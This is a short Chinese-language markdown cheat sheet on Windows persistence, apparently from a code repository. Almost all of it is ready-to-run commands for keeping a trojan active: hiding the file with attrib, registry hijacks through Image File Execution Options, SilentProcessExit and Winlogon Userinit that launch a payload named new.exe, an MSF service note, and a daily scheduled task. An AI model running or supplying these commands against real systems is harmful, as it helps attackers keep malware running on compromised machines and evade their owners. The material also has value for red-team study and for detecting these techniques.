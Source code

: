 ## windows权限维持

> 隐藏木马

```
## 系统保护并且隐藏的文件
attrib +s +h  xxx.txt 
```

> 关闭程序时触发木马——修改注册表

```bat
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\windows\new.exe"
```

> 打开程序时触发木马（下面代码有bug）

```
## copy要负载的程序
copy calc.exe _calc.exe

## 添加注册表
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & C:\windows\new.exe" /f
```

> 系统登录触发木马——winlogon

```
## 修改注册表中的Userinit的值

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,C:\windows\new.exe"
```

> 服务——MSF（重启后）

```
使用入侵木马
监听运行
使用服务木马
```

> 生成计划任务schtasks

```bat
schtasks /Create /TN bak /SC DAILY /ST 19:49 /TR "c:\test.exe"

踩坑说明：
	木马路径不要使用有空格的目录
```
